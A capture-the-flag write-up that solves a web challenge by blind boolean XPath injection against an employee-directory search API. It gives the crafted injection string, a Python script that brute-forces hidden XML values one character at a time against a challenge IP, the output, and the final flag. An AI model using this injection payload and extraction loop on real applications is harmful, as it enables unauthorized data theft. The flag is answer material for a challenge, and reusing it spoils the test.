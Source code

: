 # E.Tree
## Description
After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?

## Files
Provided xml document with data.

```xml
<district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
        </staff>
        
    </district>

    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            
        </staff>
    </district>
```

### Methodology
We can ask the website to retrieve an alien commander (staff) from the `xml` document that is on the server. However in the `element tree` there is a hidden `tag` with the flag that we want. Since the webiste is using `xpath` to retrieve data from the document, we can exploit it to fetch other elements from the document.

Example request
![burp1](./burp1.PNG)

We have a boolean server answer (success, failure). We will use a special `xpath` query to exfiltrate the flag one char at the time (blind boolean-based).

```json
{"search":"a'] or substring((//staff[position()=2]/selfDestructCode/text()),1,1)='4' or /staf[nam='a"}
```

This payload will go to the appropriate element and check if the first character of the element is a char `4`. We get a success so we are right. We bruteforce the remaining characters. The flag is divided into 2 parts. First part is on `position` 3 and the second part in on 2 (`position()`).

## Exploit
```python
#!/usr/bin/python3

import requests
import json

st = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&()*+,-./:;<=>?@[]^_{|}~'
flg = ''

for k in range(1, 26):
  for i in range(0, len(st)-1):
    # first run
    data = {"search":"a'] or substring((//staff[position()=3]/selfDestructCode/text())," + str(k) + ",1)='" + str(st[i]) + "' or /staf[nam='a"}

    # second run
    #data = {"search":"a'] or substring((//staff[position()=2]/selfDestructCode/text())," + str(k) + ",1)='" + str(st[i]) + "' or /staf[nam='a"}
  
    r = requests.post('http://138.68.148.149:31179/api/search', json=data)
    j = json.loads(r.content.decode())
    
    try:
      a = j['success']
      flg += str(st[i])
      print(flg)
      break
    except Exception as e:
      pass
```

After the first run (with position as 3).

```
[REDACTED]
CHTB{Th3_3xTr
CHTB{Th3_3xTr4
CHTB{Th3_3xTr4_
CHTB{Th3_3xTr4_l
CHTB{Th3_3xTr4_l3
CHTB{Th3_3xTr4_l3v
CHTB{Th3_3xTr4_l3v3
CHTB{Th3_3xTr4_l3v3l
CHTB{Th3_3xTr4_l3v3l_
```

After the second run (with position as 2).
```
[REDACTED]
4Cc3s$_c0n
4Cc3s$_c0nT
4Cc3s$_c0nTr
4Cc3s$_c0nTr0
4Cc3s$_c0nTr0l
4Cc3s$_c0nTr0l}
```

## Flag
**CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}**